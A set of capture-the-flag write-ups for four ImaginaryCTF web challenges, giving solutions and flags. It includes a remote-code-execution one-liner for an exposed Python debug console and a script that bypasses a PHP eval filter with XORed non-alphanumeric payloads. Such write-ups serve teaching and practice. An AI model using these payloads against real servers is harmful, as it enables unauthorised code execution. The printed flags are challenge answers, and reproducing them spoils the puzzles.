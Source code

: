 # Almost SSTI

## Description

I heard that you can prevent SSTI by enforcing really strong restrictions on user input length, so I've done that! Surely my webserver is now completely impregnable from any bugs.

## Attachments

`http://puzzler7.imaginaryctf.org:3002/`

## Solution

Trying basic jinja injection shows that the debug is set to True.

So going over to `/console` shows the python debugger console but without the pin.

We have access to RCE now!!

`__import__('os').popen(<b>cmd</b>).read();`

## flag 

`ictf{oops_I_left_my_debugger_on_I_need_to_run_home_before_my_webserver_burns_down}`

<br>

# Replacement

## Description

Red flags and fake flags form an equivalence class.

## Attachments

`ictf:f2e8b632f71c2cab`
`http://puzzler7.imaginaryctf.org:4003/`

## Solution

After logging in with the given creds, we see that there is a fake flag.
Checking the source code shows a directory `/totallynottheflag`.

When we try to access the directory, the flag is being showed for a sec and being replaced by the fake flag.

So disable the javascript and check the source code.
You can use [Burpsuite](https://portswigger.net/burp) also.

## flag 

`ictf{gr333333333333333n_flags_are_g00d_tho}`

<br>

# Backtracking

## Description

Look at how far you've come

## Attachments

`http://puzzler7.imaginaryctf.org:4007/`
`ictf:24dbcbffb8208024`

## Solution

Checking the source code shows us an obfuscated javascript code.
I have used this [deobfuscator](https://lelinhtinh.github.io/de4js/) which showed [history.pushState](https://www.javascripttutorial.net/web-apis/javascript-history-pushstate/).

This function adds the provided url to the history stack.
There appears to be a flag being added to the history stack, So simply clicking back button gives us the flag.

## flag

`ictf{it's_me_the_friend_you_made_along_the_way}`

<br>

# phpsucks

## Description

I have an eval but with a robust user input validation.

## Attachments

`http://puzzler7.imaginaryctf.org:4011/`

## Solution

Going over to the provided link shows a php code which is taking input from user by filtering alphanumeric characters and passing it to the eval.

The flag can be viewed if we can execute `secret_function()`.

The following script passes xor between two strings as input.

script

```
import requests
from Crypto.Util.strxor import strxor
import string

fun = "secret_function"
lis = """'_.@/{}()=*,-:<>?["]|"""
nope = string.ascii_lowercase + string.ascii_uppercase + string.digits
final = ""
final2 = ""

for let in fun:
    for i in lis:
        s = strxor(let.encode(), i.encode()).decode()
        if s not in nope and s in lis:
            final += s
            final2 += i
            break

payload = f"$_='{final}'^'{final2}';$_();"

url = f"http://puzzler7.imaginaryctf.org:4011/?cmd={payload}"
req = requests.get(url)
print(req.text[req.text.find('ictf'):])
```

## flag 

`ictf{th3r3_4r3_n0_l4ngu4g3_l1k3_Php}`

<br>

